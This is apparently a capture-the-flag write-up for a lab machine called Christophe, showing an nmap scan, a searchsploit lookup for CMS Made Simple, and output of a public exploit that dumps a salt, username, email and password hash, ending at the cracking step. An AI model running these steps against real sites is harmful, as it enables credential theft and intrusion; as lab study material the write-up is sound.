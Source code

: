 # SP: Christophe (V1.0.2)

![image](https://user-images.githubusercontent.com/5285547/125982486-dc67b351-b5df-4e28-9973-9de19ff391fe.png)

## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


## CMS Made Simple
![image](https://user-images.githubusercontent.com/5285547/125982400-47f6763c-774a-4277-b48f-ca0770546ab8.png)

```
searchsploit "cms made simple"
```

![image](https://user-images.githubusercontent.com/5285547/125983683-849c0a35-68be-4a6d-a5d2-66a5aadd3b38.png)


Copy the exploit and run it with python and the variables it needs. 

```


[+] Salt for password found: 932129a6bd8545bd
[+] Username found: christophe
[+] Email found: christophe@christophe.local
[+] Password found: 7908b1494f82ed320b288a0e839bfbc5
```

Crack the password


